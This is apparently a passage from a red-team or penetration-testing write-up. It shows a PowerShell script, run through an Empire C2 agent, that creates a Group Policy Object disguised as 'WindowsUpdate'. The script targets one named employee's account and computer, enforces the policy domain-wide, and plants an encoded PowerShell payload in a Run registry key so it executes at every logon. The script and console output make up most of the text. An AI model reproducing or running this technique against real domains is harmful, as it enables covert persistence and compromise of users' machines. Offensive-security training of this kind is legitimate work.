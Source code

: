 ```
function initialize-gpo(){
    Add-WindowsFeature GPMC
    import-module group-policy
    write-output "Initialization Done!"
}

function create-gpo() {
    New-GPo -name WindowsUpdate -domain GBHR.CORP -Server SR0088.GBSHR.CORP
    
    Set-GPPermissions -Name "WindowsUpdate" -Replace -PermissionLevel GpoApply -TargetName "ejansen" -TargetType user
    Set-GPPermissions -Name "WindowsUpdate" -Replace -PermissionLevel GpoApply -TargetName "SPHR0098" -TargetType computer
    Set-GPPermissions -Name "WindowsUpdate" -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
    
    New-GPLink -Name WindowsUpdate -Domain GBHR.CORP -Target "dc=gbhr,dc=corp" -order 1 -enforced yes
    
    Set-GPRegistryValue -Name "WindowsUpdate" -key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -value "powershell.exe -NoP -sta -NonI -Enc aQBtAHAAbwByA [...]"
    write-output "Created GPO successfully!"
    #End of create-gpo function
}
```

1. Initialization: The GPO management tools are installed and prepared using the Add-WindowsFeature and import-module cmdlets.

2. Creation and Targeting: A new GPO named WindowsUpdate is created and targeted specifically to Elise's account and her device.

3. Permissions: Specific GPO permissions are set to ensure that only the intended user and device apply the GPO, while others are excluded.

4. Activation: The GPO is linked to the domain, ensuring it is enforced and takes precedence over others.

5. Execution: A registry key is set up to automatically run the PowerShell payload on Elise’s device whenever she logs in.

We load this script into the Empire agent’s memory using the scriptimport module and then call the initialization function to install the GPO modules. After that, we execute the create-gpo function to launch the payload:

```
(Empire: HRAgent) > scriptimport /root/gpo.ps1
gpo.ps1
script successfully saved in memory
(Empire: HRAgent) > scriptcmd initialize-gpo()
Job started: Debug32_Apm02
Initialization Done!
Created GPO successfully!
```
